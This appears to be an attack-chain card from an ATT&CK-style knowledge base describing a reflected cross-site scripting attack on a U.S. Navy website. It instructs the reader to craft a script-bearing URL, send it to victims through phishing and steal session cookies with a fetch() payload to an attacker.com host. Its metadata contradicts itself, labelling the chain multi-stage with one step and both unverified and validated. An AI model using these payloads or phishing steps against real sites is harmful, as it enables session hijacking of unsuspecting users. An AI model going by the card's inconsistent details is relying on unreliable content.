

---
tags:
  - xss
  - reflected-xss
  - javascript
  - web-vulnerability
  - session-theft
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
procedures:
  - '[[procedures/Demonstrate-Reflected-XSS-via-Malicious-URL]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  A single-stage attack exploiting a reflected XSS vulnerability on a U.S. Navy
  website by crafting a malicious URL to inject JavaScript, enabling session
  theft or content modification.
skill_level: intermediate
impact_level: high
id: b82a90ed-3a3b-42f6-bbfa-729fb1741e0a
created_at: '2025-12-14T03:16:31.003Z'
updated_at: '2025-12-14T03:16:31.003Z'
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS on U.S. Navy Website to Steal Session Information

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with developer tools)

### Target Environment

- Target OS/Platform: Web application
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Public internet access to the Navy website

### Initial Access Requirements

- Credential requirements: None (public-facing site)
- Network position: External attacker
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Exploit Reflected XSS
procedure: [[procedures/Demonstrate-Reflected-XSS-via-Malicious-URL]]

**Objective**: Inject malicious JavaScript via a crafted URL to execute code in the victim's browser, potentially stealing session cookies or modifying page content.

**Instructions**: Identify a vulnerable input parameter on the target website (e.g., a search query). Craft a URL with a JavaScript payload such as `<script>alert(document.cookie)</script>`. Append this to the vulnerable endpoint and send it to a victim via phishing or social engineering. When the victim clicks the link, the script executes in their browser context.

For testing, open the crafted URL in your browser:

Example vulnerable URL (inferred structure):

```
https://navy-site.example.com/search?q=<script>alert('XSS')</script>
```

Observe the alert popup confirming execution. For exfiltration, replace alert with a script to send data to an attacker-controlled server, e.g., `<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>`.

**Expected Output**: JavaScript execution, such as an alert box or network request to attacker server carrying session data.

**Success Indicators**:
- Alert or console log confirms script injection
- Network tab shows exfiltration request with session cookies
- Victim's browser executes arbitrary code

## Attack Chain Summary

### Key Achievements

1. Successful injection of malicious JavaScript via reflected XSS
2. Demonstration of session information theft potential
3. Ability to modify web content in the victim's session

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
